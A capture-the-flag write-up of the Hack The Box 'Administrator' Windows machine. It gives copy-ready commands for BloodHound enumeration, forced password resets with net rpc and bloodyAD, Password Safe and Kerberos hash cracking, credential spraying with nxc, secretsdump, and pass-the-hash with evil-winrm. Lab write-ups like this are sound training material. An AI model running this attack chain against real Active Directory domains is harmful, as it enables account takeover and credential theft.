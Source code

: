 # Administrator HTB Writeup
![alt text](<Images/Pasted image 20250613195858.png>)
## Machine Information

As is common in real life Windows pentests, you start the Administrator box with credentials:  
**Username:** Olivia  
**Password:** ichliebedich  

## Initial Enumeration

### BloodHound Setup
First of all I used the following command to collect data with Olivia's credentials:

``` bash
bloodhound-python -u 'Olivia' -p 'ichliebedich' -d administrator.htb -c All --zip -ns 10.10.11.42
```

![!\[\[Pasted image 20250613200103.png\]\]](<Images/Pasted image 20250613200103.png>)

## 3. Privilege Escalation / Password Abuse

If we check **BloodHound**, we need to mark **Olivia** as **Owned**. Once done that we can go to **OutBound Object Control** and see the following:

![!\[\[Pasted image 20250613200452.png\]\]](<Images/Pasted image 20250613200452.png>)

Here we can see that from user **Olivia** we have **GenericAll** to **Michael**

![!\[\[Pasted image 20250613200537.png\]\]](<Images/Pasted image 20250613200537.png>)

To abuse that I runned the following command:
### Method 1: Using net rpc

The **net rpc password** command can be used to change the password of another user via SMB RPC.

``` bash
net rpc password "michael" "newP@ssword2022" -U "ADMINISTRATOR.HTB"/"Olivia"%"ichliebedich" -S "10.10.11.42"
```
### Method 2: Using BloodyAD

**bloodyAD** allows direct LDAP interaction to change user passwords with proper authentication.

``` bash
bloodyAD -d ADMINISTRATOR.HTB -u Olivia -p ichliebedich --host 10.10.11.42 set password michael newP@ssword2022
```

![!\[\[Pasted image 20250613200839.png\]\]](<Images/Pasted image 20250613200839.png>)

Lets go back to **BloodHound** and click on **Michael** user as **Owned**, lets click and see lets go to **Outbound Object Control** as **Michael** user.

![alt text](<Images/Pasted image 20250613201114.png>)

This output will retrieve that user **Michael** can **ForceChangePassword** to **Benjamin** user.

![!\[\[Pasted image 20250613201206.png\]\]](<Images/Pasted image 20250613201206.png>)

To abuse it we can run again these commands:

### Method 1: Using net rpc

``` bash
net rpc password "benjamin" "newP@ssword2022" -U "ADMINISTRATOR.HTB"/"michael"%"newP@ssword2022" -S "10.10.11.42"
```
### Method 2: Using BloodyAD

``` bash
bloodyAD -d ADMINISTRATOR.HTB -u michael -p newP@ssword2022 --host 10.10.11.42 set password benjamin newP@ssword2022
```

![!\[\[Pasted image 20250613202031.png\]\]](<Images/Pasted image 20250613202031.png>)

## 4. Accessing FTP and `.psafe3` File

Once we changed that credentials we can abuse them for login via FTP.

![!\[\[Pasted image 20250613202115.png\]\]](<Images/Pasted image 20250613202115.png>)

Here we can find a Backup.psafe3 file.

![!\[\[Pasted image 20250613202139.png\]\]](<Images/Pasted image 20250613202139.png>)

This file is a Password Safe database, requiring a master password to open.

If we try open it it asks for a password so lets get this hash password.

![!\[\[Pasted image 20250613202328.png\]\]](<Images/Pasted image 20250613202328.png>)

To extract the hash for cracking, I used:

![!\[\[Pasted image 20250613202434.png\]\]](<Images/Pasted image 20250613202434.png>)

Now lets crack the hash.

![!\[\[Pasted image 20250613203306.png\]\]](<Images/Pasted image 20250613203306.png>)

Here are the commands I used:

``` bash
pwsafe2john Backup.psafe3 > psafehash
john psafehash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Again lets run **PasswordSafe** and put the password.

![!\[\[Pasted image 20250613203344.png\]\]](<Images/Pasted image 20250613203344.png>)

## 5. Extracting and Verifying Credentials

And we open the "**Vault**".

![!\[\[Pasted image 20250613203414.png\]\]](<Images/Pasted image 20250613203414.png>)

Inside Password Safe, I found 3 users. I exported usernames to **users.txt** and passwords to **passwords.txt**.

![!\[\[Pasted image 20250613204232.png\]\]](<Images/Pasted image 20250613204232.png>)

Then I verified with nxc which user and password is valid.

``` bash
nxc smb 10.10.11.42 -u users.txt -p passwords.txt 
```

![!\[\[Pasted image 20250613204347.png\]\]](<Images/Pasted image 20250613204347.png>)

## 6. Further Enumeration & Kerberoasting

Lets go back to **BloodHound** and filter by user **Emily** and mark it as Owned once again we can retrieve the **Outbound Object Control**.

![!\[\[Pasted image 20250613204706.png\]\]](<Images/Pasted image 20250613204706.png>)

**BloodHound** showed **Emily** has **GenericWrite** to **Ethan**.

For abuse this privilege we can simply run **targetedKerberoast**
If anyone is missing **targetedKerberoast** here is the repository: <a href="https://github.com/ShutdownRepo/targetedKerberoast" target="_blank">targetedKerberoast</a>

![!\[\[Pasted image 20250613205142.png\]\]](<Images/Pasted image 20250613205142.png>)

And we have **Ethan** hash, so lets crack it.

Save the content into **hash.txt**

``` bash
hashcat -a 0 -m 13100 ethanhash.txt /usr/share/wordlists/rockyou.txt -O
```

**Ethan:limpbizkit**

## 7. Final Access and Root

Now lets go back to **BloodHound** again and lets mark as Owned **Ethan** and lets retrieve its privileges by going to **Outbound Object Control**.

![!\[\[Pasted image 20250613205345.png\]\]](<Images/Pasted image 20250613205345.png>)

And we get the following output.

![!\[\[Pasted image 20250613205405.png\]\]](<Images/Pasted image 20250613205405.png>)

As Ethan user we can simply run **impacket-secretsdump** to retrieve all hashes.

![!\[\[Pasted image 20250613205448.png\]\]](<Images/Pasted image 20250613205448.png>)

Here we retrieve the Administrator hash so we can go to **evil-winrm** and do **pass-the-hash**

``` bash
evil-winrm -i 10.10.11.42 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e

type C:\Users\Emily\Desktop\user.txt

type C:\Users\Administrator\Desktop\root.txt
```

Congratulations you solved the machine. 

Made by **Astro**
